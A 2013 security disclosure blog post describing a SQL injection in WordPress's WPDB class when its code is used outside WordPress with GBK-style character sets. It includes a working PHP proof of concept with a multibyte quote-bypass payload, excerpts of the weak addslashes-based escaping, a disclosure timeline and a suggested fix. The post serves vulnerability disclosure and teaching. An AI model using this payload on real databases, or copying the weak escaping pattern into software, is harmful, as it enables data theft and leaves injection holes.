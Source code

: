 ```yaml
---
layout: post
title: "Disclosure: WordPress WPDB SQL Injection Vulnerability"
permalink: disclosure-wordpress-wpdb-sql-injection
date: 2013-07-16
comments: true
categories:
- Security
tags:
- Disclosure
- Open Source
- PHP
- Security
- SQL Injection
---
```


At the current point in time there exists a very significant SQL Injection vulnerability in the WordPress code base. I want to make it abundantly clear that this does not affect anyone using WordPress "off the shelf". It only is exploitable if you use certain WordPress code outside of a WordPress install. So this is not a very "attackable" vulnerability. Or to put it in other terms, this is a high level vulnerability which has a very low threat level. It is also worth noting that it has not been fixed by WordPress (even 90 days after disclosure).<!--more-->
## Vulnerability Scope

I really want to stress here that the problem here is not that WordPress is insecure. Installed instances are immune to this particular vulnerability due to specifics of the implementation. 

The reason that I am treating this like an actual vulnerability is that I firmly believe that open source projects need to lead by example. That's the big issue that needs to be fixed here... And the vulnerability here is something that is extremely well known and the rest of the industry has moved past...

## The Vulnerability

So let me show the proof-of-concept code here:

```php
// Fill in credentials here:
$host = '';
$user = '';
$pass = '';
$dbname = '';
 
/** Hack Below */
 
function apply_filters($name, $arg) { return $arg; }
 
define('WP_DEBUG', false); // Not necessary
define('DB_CHARSET', ''); // Necessary
 
require_once dirname(__FILE__) . '/wp-includes/wp-db.php';
 
$db = new WPDB($user, $pass, $dbname, $host);
 
$payload = '%' . chr(0xbf) . chr(0x27) . " OR 1=1 /*";
 
$stmt = $db->prepare(
    'SELECT * 
        FROM INFORMATION_SCHEMA.CHARACTER_SETS 
        WHERE CHARACTER_SET_NAME = %s 
        LIMIT 1', 
    $payload
);

var_dump($db->query($stmt));
```

When this code is installed with a specifically configured MySQL server (expecting GBK character set by default), that SQL Injection will work.

So basically any time the character set is not explicitly set by the user and the external site is using a specific class of character sets (GBK and Big5, among others), this is vulnerable.


But let me make it clear again, this is an extremely narrow case that likely directly affects literally 0 applications on the internet. The point of this disclosure is not that people are affected. It's that this should never even be possible in 2013...## The Vulnerable Code

To see why this works, let's take a look at the [WPDB class](https://github.com/WordPress/WordPress/blob/2ac8311b74063e43ca5a1c886ad706e98b6a0910/wp-includes/wp-db.php). 

```php
function escape( $data ) {
    if ( is_array( $data ) ) {
        foreach ( (array) $data as $k => $v ) {
            if ( is_array( $v ) )
                $data[$k] = $this->escape( $v );
            else
                $data[$k] = $this->_weak_escape( $v );
        }
    } else {
        $data = $this->_weak_escape( $data );
    }

    return $data;
}
```

So looking at that, escape just proxies to `_weak_escape()`... And what's `_weak_escape()` you ask?

```php
function _weak_escape( $string ) {
    return addslashes( $string );
}
```

Yeah. So... If you're not aware of the issue here, I HIGHLY recommend reading [this post on addslashes](http://shiflett.org/blog/2006/jan/addslashes-versus-mysql-real-escape-string) by Chris Shiftlett from 2006...

But it gets better! There's a prepare method that simulates prepared statements! Let's look at how that works...

```php
function prepare( $query, $args ) {
    if ( is_null( $query ) )
        return;

    $args = func_get_args();
    /*snip*/
    array_walk( $args, array( $this, 'escape_by_ref' ) );
    return @vsprintf( $query, $args );
}
```


So it calls `escape_by_ref`... Surely that does something sane...?

```php
function escape_by_ref( &$string ) {
    if ( ! is_float( $string ) )
        $string = $this->_real_escape( $string );
}
```


Ok, so now there's a `_real_escape` function? I wonder what that does?

```php
function _real_escape( $string ) {
    if ( $this->dbh && $this->real_escape )
        return mysql_real_escape_string( $string, $this->dbh );
    else
        return addslashes( $string );
}
```


Oh cool! There's `mysql_real_escape_string()`! But wait, there's a conditional... It's checking for a connection (and if there isn't one yet, it's insecurely escaping). Then it's checking if the `real_escape` property is true. I wonder how that's set:

In the `set_charset() `function, it checks a few parts. First, it checks to see if the database supports collations. Then it checks to see if it supports charsets. Then it checks to see if we're explicitly setting a charset. Only then will it switch from `addslashes() `to `mysql_real_escape_string()`:

```php
if ( $this->has_cap( 'collation' ) && ! empty( $charset ) ) {
    if ( function_exists( 'mysql_set_charset' ) && $this->has_cap( 'set_charset' ) ) {
        mysql_set_charset( $charset, $dbh );
        $this->real_escape = true;
    } else {
        $query = $this->prepare( 'SET NAMES %s', $charset );
        if ( ! empty( $collate ) )
            $query .= $this->prepare( ' COLLATE %s', $collate );
        mysql_query( $query, $dbh );
    }
}

```


So if you're using an older version of MySQL (below 5.0.7), you'll never use real_escape_string (ever). If, like in our proof-of-concept script above, you're not explicitly setting the charset, it will never use `mysql_real_escape_string()`.

In short, this is REALLY overly complicated and makes security the edge-case rather than the other way around.## Disclosure Timeline

 * April 17 - Initial report sent to lead developer (at his request)
 * April 17 (10 minutes later) - Response acknowliding issue and discussing potential solution
 * June 23 - I emailed stating intention to disclose on July 1, as it has not been fixed nor has progress been made
 * June 23 (10 minutes later) - Response indicating a plan of action. Promise to send code within 24 hours.
 * June 23 - I agree to delay disclosure to July 16, to give more time.
 * July 14 - I received an email requesting an additional 2 weeks, stating that I would get code "within 24 hours" again.
 * July 14 - I declied the request of an additional 2 weeks, as no progress has been shown other than under threat of disclosure.
 * July 16 - Disclosure (still no code received)


So basically, nothing has happened of significance. Which is why I chose to disclose after 90 days. I initially intended to disclose at 60 days, but decided to delay to 75 as it's not a high threat level. Then, when asked (there was progress to be made), I agreed to delay further to 90 days. But I cannot reasonably agree to go further. There has been 90 days since the original report. The fix is actually pretty straight forward. Simply replace all instances of `addslashes() `with `mysql_real_escape_string()`, and raise an error (or start a database connection) if the connection is not active. It's a 5 line patch (well, 5 lines of logic change, the "cleanup" it will allow is much greater)...


Note: I realize that it might not wind up being a 5 line patch, that there may be some circumstances that warrant more changes. So far I have seen nothing to indicate that this is the case (no evidence of actual issues that need to be solved with the original concept).

## Security Is A Responsibility


I've been quoted before as saying that open source projects have a responsibility to their users and to the greater community to lead by example. This case is one where the WordPress project really needs to learn this lesson.

First, the fact that `addslashes() `exists in a database layer in any form in 2013 is down right disturbing. Disturbing doesn't even describe it. It's simply gross negligence. And what's worse is that it's not that the developers didn't understand the problem. And it's not that they didn't think it was a problem. They agreed it was a problem (albeit a narrow one). And that makes it infinitely worse in my opinion. Because that means it's intentional. And that's inexcusable.

To be clear, I'm not trying to attack the individual developers on the project. The individual developers are indeed smart and rational people. The problem as I see it is the policies and practices that the project as a whole have put in place.


But further is the communication that has happened since reporting. After the initial report, the next response I got was over 2 months later when I threatened to disclose. And I was promised code within 24 hours, which I never got. The next time I heard anything was 2 days before the agreed-upon delayed disclosure date. This is not how to handle one of the largest projects in the world. Even if it is a narrow issue.

Really, I'm quite disapointed here.
